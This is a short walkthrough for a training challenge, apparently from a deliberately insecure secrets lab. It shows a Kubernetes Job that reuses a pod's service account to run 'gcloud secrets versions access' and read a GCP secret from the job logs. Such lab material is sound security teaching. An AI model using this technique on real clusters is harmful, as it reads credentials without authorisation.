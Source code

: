 You can solve this challenge by the following steps:

- Create a new job file `job.yaml` with the following content:

```yaml
apiVersion: batch/v1
kind: Job
metadata:
  name: wrongsecret-3
spec:
  template:
    spec:
      serviceAccountName: default
      containers:
        - name: gcloud
          image: gcr.io/google.com/cloudsdktool/cloud-sdk:latest
          command:
            [
              "gcloud",
              "secrets",
              "versions",
              "access",
              "latest",
              "--secret=wrongsecret-3",
            ]
      restartPolicy: Never
```

This job executes the command `gcloud secrets versions access latest --secret=wrongsecret-3`. Since the job can access the same service account as the secret challenge pod, it can access GCP with the same privileges.

- Apply the job with `kubectl apply -f job.yaml`
- Check the job's logs with `kubectl logs job/wrongsecret-3`. This should show you the solution :)
